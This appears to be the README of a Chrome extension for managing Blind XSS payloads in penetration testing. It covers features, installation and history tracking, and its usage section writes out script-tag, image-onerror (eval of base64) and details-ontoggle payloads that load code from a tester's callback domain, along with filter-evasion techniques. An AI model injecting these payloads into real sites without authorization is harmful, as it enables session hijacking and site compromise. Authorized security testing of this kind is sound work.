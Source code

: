# Blind XSS Manager

A Chrome extension designed for efficient management of Blind XSS payloads, offering a streamlined interface and essential features for security testing.

Inspired by [SeifElsallamy's Blind-XSS-Manager.](https://github.com/SeifElsallamy/Blind-XSS-Manager)

Built with the assistance of AI.

## 🚀 Features

### Core Functionality
- **4 Essential Payloads** - Carefully selected XSS injection techniques
- **Dynamic Hash Generation** - Unique MD5-based hashes for each URL
- **Real-time URL Capture** - Automatically captures current tab URL
- **Domain Management** - Save and reuse your XSS domains
- **Comprehensive History** - Track all your injection attempts

### Payload Types
- **Script Tag** - Basic script injection technique
- **Image Tag** - Image-based XSS with base64 encoded payload
- **Details Tag** - HTML5 details element injection
- **Polyglot Payload** - Advanced multi-context injection vector

### History Management
- **Search Functionality** - Find specific entries quickly
- **Time-based Filtering** - Filter by today, week, month, or all time
- **Export Options** - Export as CSV, JSON, or TXT
- **Individual Entry Management** - Copy hashes, URLs, or delete specific entries
- **Statistics Dashboard** - View injection metrics

## 📦 Installation

### For Chrome/Chromium-based browsers:

1. Download or clone this repository
2. Open Chrome and navigate to `chrome://extensions/`
3. Enable "Developer mode" in the top right corner
4. Click "Load unpacked" and select the folder containing the extension files
5. The extension should now appear in your extensions list

## 🔧 Manifest V3 Compatibility

This extension uses Manifest V3, making it compatible with the latest versions of Chrome:

- ✅ **Modern Architecture** - Service worker background script
- ✅ **Enhanced Security** - Improved security model
- ✅ **Better Performance** - More efficient resource usage
- ✅ **Future-Proof** - Uses latest Chrome extension APIs

## 🎯 Usage Guide

### Main Interface
1. **Configure Domain** - Enter your XSS domain (e.g., `*.xss.ht`)
2. **Auto-Capture** - Current URL and hash are automatically captured
3. **Generate Payloads** - Payloads are automatically generated with your domain and hash
4. **Copy Payloads** - Copy individual payloads or all at once
5. **View Statistics** - Monitor your injection metrics

### Payload Management
- **Script Tag**: `"><script src=https://domain?n=hash></script>`
- **Image Tag**: `"><img src=x id=base64_encoded onerror=eval(atob(this.id))>`
- **Details Tag**: `-->"//'//></script><details/open/ontoggle="import('https://domain?n=hash')">`
- **Polyglot Payload**: Advanced multi-context injection with various encoding techniques

### History Management
1. **View All Entries** - Complete injection history with timestamps
2. **Search & Filter** - Find specific entries by URL, hash, or domain
3. **Export Data** - Multiple export formats available (CSV, JSON, TXT)
4. **Individual Actions** - Copy hashes, URLs, or delete specific entries
5. **Clear All** - Remove all history entries

## 📁 File Structure

```
Blind-XSS-Manager/
├── manifest.json          # Extension manifest (Manifest V3)
├── popup.html            # Main extension interface
├── popup.js              # Core functionality and payload generation
├── background.js         # Service worker for background tasks
├── content.js            # Content script for web page interaction
├── history.html          # History view interface
├── history.js            # History management functionality
├── icon.png              # Extension icon
└── README.md             # This file
```

## 🔒 Security Features

### Payload Techniques
- **Script Injection** - Direct script tag injection
- **Image-based XSS** - Using image onerror events with base64 encoding
- **HTML5 Elements** - Modern browser features for injection
- **Polyglot Payloads** - Multi-context injection vectors with advanced encoding

### Advanced Techniques
- Base64 encoding for payload obfuscation
- Mixed-case evasion techniques
- Unicode normalization
- Character code obfuscation
- Multi-context compatibility

## ⚙️ Configuration

### Domain Setup
- Enter your XSS domain (e.g., `*.xss.ht`)
- Domain is automatically saved for future use
- Used in all generated payloads

### Hash Generation
- Unique MD5 hash generated for each URL
- Automatically captured from current tab
- Used as nonce parameter in payloads

## 🛠️ Troubleshooting

### Common Issues
1. **Extension won't load**
   - Ensure Developer mode is enabled
   - Check that all files are present
   - Verify Chrome version compatibility

2. **Payloads not generating**
   - Check domain configuration
   - Ensure current URL is accessible
   - Verify extension permissions

3. **History not saving**
   - Check storage permissions
   - Verify sync is enabled
   - Clear and reload extension

### Browser Compatibility
- ✅ Chrome 88+
- ✅ Chromium-based browsers
- ✅ Edge (Chromium)
- ✅ Brave Browser
- ❌ Firefox 

## 📝 License

This project is designed for security testing and penetration testing purposes. Use responsibly and only on systems you have permission to test.

## ⚠️ Disclaimer

This tool is intended for educational and authorized security testing purposes only. Users are responsible for ensuring they have proper authorization before testing any systems. The developers are not responsible for any misuse of this tool.
